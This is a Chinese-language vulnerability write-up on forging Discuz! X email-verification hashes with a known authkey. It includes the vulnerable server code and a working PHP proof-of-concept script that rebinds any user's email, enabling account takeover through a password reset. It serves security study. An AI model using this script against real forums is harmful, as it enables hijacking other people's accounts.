 # Discuz authkey 重置任意账户邮箱

> 原文：[https://www.zhihuifly.com/t/topic/2869](https://www.zhihuifly.com/t/topic/2869)

# Discuz! X authkey 重置任意账户邮箱

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![image](img/e45577b48e06c8f4162fe5f04745111a.png)

验证链接类似于

```
http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F 
```

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

```
<?php
/**
 *      [Discuz!] (C)2001-2099 Comsenz Inc.
 *      This is NOT a freeware, use is subject to license terms
 *
 *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
 */
if(!defined('IN_DISCUZ')) {
	exit('Access Denied');
}
$uid = 0;
$email = '';
$_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
if($_GET['hash']) {
	list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
	$uid = intval($uid);
}
// exit($email);
if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
	$member = getuserbyuid($uid);
	$setarr = array('email'=>$email, 'emailstatus'=>'1');
	if($_G['member']['freeze'] == 2) {
		$setarr['freeze'] = 0;
	}
	loaducenter();
	$ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
	if($ucresult == -8) {
		showmessage('email_check_account_invalid', '', array(), array('return' => true));
	} elseif($ucresult == -4) {
		showmessage('profile_email_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -5) {
		showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -6) {
		showmessage('profile_email_duplicate', '', array(), array('return' => true));
	}
	if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
		$membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
		$setarr['groupid'] = $membergroup['groupid'];
	}
	updatecreditbyaction('realemail', $uid);
	C::t('common_member')->update($uid, $setarr);
	C::t('common_member_validate')->delete($uid);
	dsetcookie('newemail', "", -1);
	showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
} else {
	showmessage('email_check_error', 'index.php');
}
?> 
```

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

```
list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16)))); 
```

然后经过一次判断

```
 if($uid && isemail($email) && $time > TIMESTAMP - 86400) { 
```

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5("authkey")

```
<?php
        //Enter your code here, enjoy!
function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length = 4;
	$key = md5($key ? $key : UC_KEY);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);
	$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);
	$result = '';
	$box = range(0, 255);
	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}
	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}
	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}
	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}
}
echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16))); 
```

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![image](img/bc9cfa547901cae61dd5aae991537ce7.png)

## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85